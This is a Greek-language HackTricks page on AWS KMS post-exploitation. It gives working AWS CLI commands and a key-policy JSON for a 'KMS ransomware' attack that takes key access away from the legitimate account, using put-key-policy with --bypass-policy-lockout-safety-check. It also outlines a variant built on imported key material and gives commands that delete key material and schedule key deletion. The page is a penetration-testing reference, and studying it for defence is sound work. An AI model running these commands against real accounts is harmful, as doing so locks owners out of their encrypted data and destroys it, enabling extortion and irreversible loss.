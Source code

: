 # AWS - KMS Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Κρυπτογράφηση/Αποκρυπτογράφηση πληροφοριών

{% hint style="success" %}
Σημειώστε ότι αν θέλετε να αποκρυπτογραφήσετε κάποια δεδομένα μέσα σε ένα αρχείο, το αρχείο πρέπει να περιέχει τα δυαδικά δεδομένα, όχι κωδικοποιημένα σε base64.
{% endhint %}

* Χρησιμοποιώντας ένα **συμμετρικό** κλειδί
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Χρησιμοποιώντας ένα **asymmetric** κλειδί:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Ένας επιτιθέμενος με προνομιακή πρόσβαση στο KMS θα μπορούσε να τροποποιήσει την πολιτική KMS των κλειδιών και **να παραχωρήσει την πρόσβαση στον λογαριασμό του**, αφαιρώντας την πρόσβαση που παραχωρήθηκε στον νόμιμο λογαριασμό.

Έτσι, οι χρήστες του νόμιμου λογαριασμού δεν θα μπορούν να έχουν πρόσβαση σε καμία πληροφορία οποιασδήποτε υπηρεσίας που έχει κρυπτογραφηθεί με αυτά τα κλειδιά, δημιουργώντας ένα εύκολο αλλά αποτελεσματικό ransomware πάνω στον λογαριασμό.

{% hint style="warning" %}
Σημειώστε ότι **τα διαχειριζόμενα από την AWS κλειδιά δεν επηρεάζονται** από αυτήν την επίθεση, μόνο **τα διαχειριζόμενα από τον πελάτη κλειδιά**.

Επίσης, σημειώστε την ανάγκη χρήσης της παραμέτρου **`--bypass-policy-lockout-safety-check`** (η έλλειψη αυτής της επιλογής στην ιστοσελίδα καθιστά αυτήν την επίθεση δυνατή μόνο από το CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Σημειώστε ότι αν αλλάξετε αυτή την πολιτική και δώσετε πρόσβαση μόνο σε έναν εξωτερικό λογαριασμό, και στη συνέχεια από αυτόν τον εξωτερικό λογαριασμό προσπαθήσετε να ορίσετε μια νέα πολιτική για **να δώσετε ξανά την πρόσβαση στον αρχικό λογαριασμό, δεν θα μπορείτε**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

Υπάρχει ένας άλλος τρόπος για να εκτελέσετε ένα παγκόσμιο KMS Ransomware, ο οποίος θα περιλαμβάνει τα εξής βήματα:

* Δημιουργήστε ένα νέο **κλειδί με υλικό κλειδιού** που έχει εισαχθεί από τον επιτιθέμενο
* **Επανακρυπτογραφήστε τα παλαιότερα δεδομένα** που έχουν κρυπτογραφηθεί με την προηγούμενη έκδοση με το νέο.
* **Διαγράψτε το κλειδί KMS**
* Τώρα μόνο ο επιτιθέμενος, που έχει το αρχικό υλικό κλειδιού, θα μπορεί να αποκρυπτογραφήσει τα κρυπτογραφημένα δεδομένα

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Σημειώστε ότι η AWS τώρα **αποτρέπει τις προηγούμενες ενέργειες να εκτελούνται από έναν διασυνοριακό λογαριασμό:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
